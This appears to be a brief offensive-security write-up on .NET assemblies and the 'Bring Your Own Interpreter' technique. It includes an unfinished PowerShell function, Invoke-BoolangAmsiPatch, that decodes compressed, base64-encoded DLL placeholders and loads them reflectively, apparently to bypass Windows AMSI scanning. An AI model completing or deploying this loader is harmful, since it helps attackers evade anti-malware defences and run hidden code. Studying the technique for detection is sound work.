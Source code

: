 ### 1 - Introduction 

**What is .NET Assemblies :**

Assemblies form the fundamental units of deployment, version control, reuse, activation scoping, and security permissions for .NET-based applications. An assembly is a collection of types and resources that are built to work together and form a logical unit of functionality. Assemblies take the form of executable (.exe) or dynamic link library (.dll) files, and are the building blocks of .NET applications. 
They provide the common language runtime with the information it needs to be aware of type implementations.



- .NET assemblies can be executed by any .NET langage
- The function `Assembly.Load()` will reflectively load .NET Assemblies

>⚠️  **.NET Format Assemblies ≠ C Format Assemblies**

### 2 - BYOI Concept

this technique which was discovered [byt3bl33d3r](https://github.com/byt3bl33d3r) consists in using third party parts of the languages present in .NET for embedding a interpreter into a default .NET langage

```boo
function Invoke-BoolangAmsiPatch {
    $BooLangDLL = @'<BOOLANG_DLL>'@
    $BooLangCompilerDLL = @'<BOOLANG_COMPILER_DLL>'@
    $BooLangParserDLL = @'<BOOLANG_PARSER_DLL>'@
    $BoolangExtensionsDLL = @'<BOOLANG_EXTENSION_DLL>'@

    function Load-Assembly($EncodedCompressedFile){
        $DeflatedStream = [IO.Compression.DeflateStream]::new([IO.MemoryStream][Convert]::FromBase64String($EncodedCompressedFile), [IO.Compression.CompressionMode]::Decompress)
        $UncompressedFileBytes = New-Object Byte[] (1900000)
        $DeflatedStream.Read($UncompressedFileBytes, 0, 1900000) | Out-Null
        return [Reflection.Assembly]::Load($UncompressedFileBytes)
    }
    $BooLangAsm = Load-Assembly($BooLangDLL)
    $BooLangCompilerAsm = Load-Assembly($BooLangCompilerDLL)
    $BooLangParserAsm = Load-Assembly($BooLangParserDLL)
    $
}
```
